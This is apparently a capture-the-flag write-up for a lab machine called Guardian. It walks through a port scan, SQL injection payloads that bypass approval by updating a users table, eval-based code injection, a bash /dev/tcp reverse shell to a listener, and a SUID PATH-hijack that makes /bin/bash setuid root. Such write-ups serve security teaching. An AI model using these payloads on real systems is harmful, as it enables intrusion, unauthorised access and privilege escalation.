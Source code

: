 ```yaml
---
title: 'Guardian Writeup'
date: '2024-06-16'
tags: ['SQLI', 'CODE INJECTION', 'Linux', 'Hacking Club']
draft: false
summary: 'Machine involving SQL Injection, code injection, and reversing (PE).'
images: ['/static/images/guardian-writeup-images/1.png']
authors: ['default']
---
```


![Guardian 1](/static/images/guardian-writeup-images/1.png)

---

### Port Scanning

`nmap -sV -sC -p- -v $IP --open`

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 d3:3b:8b:a7:7a:ac:07:57:97:2b:23:35:fc:a4:5e:42 (ECDSA)
|_  256 b7:4c:f4:d4:3f:be:78:52:88:50:3a:d0:33:b9:48:b1 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
| http-title: Guardian Insurance
|_Requested resource was /login
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Only ports 22 (SSH) and 80 (HTTP) are open.

---

## Enumeration

![Guardian 2](/static/images/guardian-writeup-images/2.png)

The first thing I tried was an SQLi (SQL Injection) in this part of the application, but it didn't work.

However, the "Register for first access" section is vulnerable.

![Guardian 3](/static/images/guardian-writeup-images/3.png)

If you pass `' or 1=1#` directly, you can already bypass it. But I chose to do it through Burp.

![Guardian 4](/static/images/guardian-writeup-images/4.png)

After that, I registered a new user.

![Guardian 5](/static/images/guardian-writeup-images/5.png)

When you try to log in, it says that admin approval is required:

![Guardian 6](/static/images/guardian-writeup-images/6.png)

Notice that the application returns a JWT. Initially, I thought about attacking this JWT, but it didn't work.

Since we already have an SQLi in the "register for first access" section, we will use it to change the approval status in the database.

```jsx
"EIN": "' or 1=1; SELECT table_name FROM information_schema.tables WHERE table_schema=database();-- "
```

![Guardian 7](/static/images/guardian-writeup-images/7.png)

```jsx
"EIN": "' or 1=1; SELECT column_name FROM information_schema.columns WHERE table_name='users';-- "
```

![Guardian 8](/static/images/guardian-writeup-images/8.png)

```jsx
"EIN": "' or 1=1; UPDATE users SET approved = 1 WHERE approved = 0;-- "
```

![Guardian 9](/static/images/guardian-writeup-images/9.png)

![Guardian 10](/static/images/guardian-writeup-images/10.png)

With this, we can log into the system.

![Guardian 11](/static/images/guardian-writeup-images/11.png)

The system does not have many features; only the `/customers` route works.

When we open the customers tab and intercept the request, we see that there is a parameter called **"action"** being passed.

![Guardian 12](/static/images/guardian-writeup-images/12.png)

When we pass +2\*5, the application returns the value 10, meaning it is executing the **eval()** function. Therefore, the **action** parameter is vulnerable to code injection.

```
 "action": "db.getClients('56-7890123') +2*5"
```

![Guardian 13](/static/images/guardian-writeup-images/13.png)

---

## Foot Hold

```jsx
"action": "db.getClients('56-7890123'); require('child_process').execSync('bash -c \\"bash -i >& /dev/tcp/10.0.31.150/4444 0>&1\\"').toString();"
```

![Guardian 14](/static/images/guardian-writeup-images/14.png)

`nc -lnvp 4444`
![Guardian 15](/static/images/guardian-writeup-images/15.png)

---

## Privilege Escalation

**SUID** /opt/backup found:

`find / -perm -u=s 2>/dev/null`
![Guardian 16](/static/images/guardian-writeup-images/16.png)

Checking the strings of the SUID:

`strings backup`
![Guardian 17](/static/images/guardian-writeup-images/17.png)

The plan is to create a script called **mysqldump**, which will be invoked first by the ELF file named backup.

On Linux, things execute in a specific order. When we run a command, Linux uses the **$PATH** environment variable to find where the program is located (in which directory). We can modify this to make the program look first in the /tmp folder.

So, instead of the program executing its normal function, we will make it execute our malicious script first:

```bash
echo '#!/bin/bash' > /tmp/mysqldump
echo 'chmod u+s /bin/bash' >> /tmp/mysqldump
chmod +x /tmp/mysqldump
export PATH=/tmp:$PATH
./backup mysql_backup:7fxzh7m*
```

![Guardian 18](/static/images/guardian-writeup-images/18.png)

In other words, we created a malicious script that, when executed by the SUID program backup (using bash -p to retain permissions), will modify **/bin/bash** to grant us root access.

---

## Proof

![Guardian 19](/static/images/guardian-writeup-images/19.png)
